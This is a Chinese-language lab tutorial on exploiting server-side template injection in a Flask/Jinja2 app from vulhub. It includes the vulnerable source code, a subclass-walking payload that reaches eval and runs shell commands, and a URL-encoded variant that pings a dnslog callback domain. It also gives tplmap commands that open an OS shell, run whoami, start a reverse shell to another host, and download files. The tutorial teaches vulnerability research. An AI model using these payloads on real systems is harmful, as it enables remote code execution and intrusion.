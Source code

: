 # 1. SSTI模板注入漏洞

## 1.1. 漏洞介绍

		SSTI模板注入是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可恶意语句，从而导致敏感信息泄露、代码执行、GetShell等问题。SSTI 模板注入漏洞可以用来找出 Web 应用程序的内容结构。



### 1.1.1. 挖掘漏洞

![](media/ssti-methodology-diagram.png)

## 1.2. 环境搭建

		我这里是直接用docker装vulhub，Vulhub是一个基于docker和docker-compose的漏洞环境集合，进入对应目录并执行一条语句即可启动一个全新的漏洞环境，让漏洞复现变得更加简单，让安全研究者更加专注于漏洞原理本身。Vulhub的官方地址为www.vulhub.org。

		安装好docker之后克隆漏洞环境，如下：

		git clone https://github.com/vulhub/vulhub.git

![](media/a0827eaea809bcd1503840ec7554c169.png)

cd到flask/ssti/目录下启动环境，如下：

docker-compose build

docker-compose up -d

![](media/ff01349e97c9af7b704fbf8a259cb2ec.png)

		端口默认是8000，搭好结果如下：

![](media/a1626846862bb2a6bca9e805ee1490ff.png)

		src目录下的app.py内容如下：

```python
from flask import Flask, request
from jinja2 import Template

app = Flask(__name__)

@app.route("/")
def index():
    name = request.args.get('name', 'guest')

    t = Template("Hello " + name)
    return t.render()

if __name__ == "__main__":
    app.run()
```

		代码意思是在网站根目录下接受参数name，默认值为guest，会在获取到的参数值前面加上Hello然后输出

## 1.4. 漏洞验证

		模板注入漏洞不只存在于python，php和java也会出现该漏洞，而在python也不止一个这种模板，上面代码显示引入了flask模块和jinja2模块，而jinja2就是一个基于python的存在SSTI漏洞的模板。

		模板识别：

![image-20211029183457731](./media/19782504-e73756ae84d4d5a4.webp)



![image-20211029183457731](./media/2.png)

在jinja2中获取参数是通过{{}}来获取，比如我们想严重漏洞存不存在就可以提交{{2\*2}}，如果返回4就说明存在该漏洞，如下：

![](media/83dae8a43cf2e8987f9fb1869911343c.png)

该漏洞还会导致xss，如下：

![](media/98e6705e70c992be217e578fa0d7088d.png)





## 1.5. 漏洞原理 ##

python可以调用系统命令；

如：

```python
import os

os.popen("calc")
```

jinja2 的模板中调用Python代码，需要在模板环境中注册函数才能在模板中进行调用，例如想要在模板中直接调用内置模块 os，即需要在模板环境中对其注册，如：

```python
import os
import sys

from jinja2 import Template

template = Template("Your input: {}".format(sys.argv[1] if len(sys.argv) >1 else '<empty>'))
template.globals['os'] = os

print(template.render())
```

![image-20211029183457731](./media/10.png)

如果未注册会报错，类似编程中未声明。这种情况下可以通过 Jinja2 的**模板语法**去**遍历变量**。jinja2中模板可以访问 Python 中的内置变量并且可以调用对应变量类型下的方法。

```javascript
__class__返回调用的参数类型
__base__返回基类列表
__mro__允许我们在当前Python环境下追溯继承树
__subclasses__()返回object子类
__globals__ 以字典类型返回当前位置的全部全局变量（func_globals 等价）
```

![image-20211029183457731](./media/11.png)

通过python方法构造的语句实现注册内置模块，如下：

![image-20211120183626476](./media/12.png)

上面构造的语句可在python直接引用，但在jinja2模板中需要转换成jinja2能识别的格式。

## 1.6. 漏洞利用

		在jinja2中可以利用python的内置函数来进行读写文件或者执行命令，下面是官网给出的命令执行payload：

~~~jinja2
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
~~~

> url编码后：

%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22id%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

		执行结果如下：

![](media/877637a86e6f1b2a911231c85954df5b.png)

		popen函数的参数就是待执行的命令，如下：

![](media/f02cff1eaed38e26a50f05f47279b0f2.png)

http://49.233.51.164:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).system(%22ping%20yh2wa2.dnslog.cn%22)%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D

		os.system()

![image-20211029183457731](./media/3.png)







## 1.7. 漏洞修复

		修改参数处理方式，如下：

![](media/4459c5a7f9775548e6b7b24740b15ba1.png)

## 1.8. 参考资料

https://blog.csdn.net/u011377996/article/details/86776181

https://www.cnblogs.com/20175211lyz/p/11425368.html

https://www.jianshu.com/p/1f80e6561049

https://shimo.im/docs/cpVxcWctk3KtxGGQ





python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --os-shell

![](media/4.png)

python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --os-cmd whoami

![](media/5.png)

python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --reverse-shell 192.168.1.7 2333

![](media/6.png)

![](media/7.png)

python2.exe .\tplmap.py -u http://192.168.1.8:8000/?name=9 --download ./app.py ./test.py



![](media/8.png)

flask1.0以后的版本开启调试模式的方法

"flask run" 命令前加上 "set FLASK_DEBUG=1" （NOTE：Linux 下用 export）来开启

powershell 用 $env:FLASK_ENV = "development"

![](media/9.png)



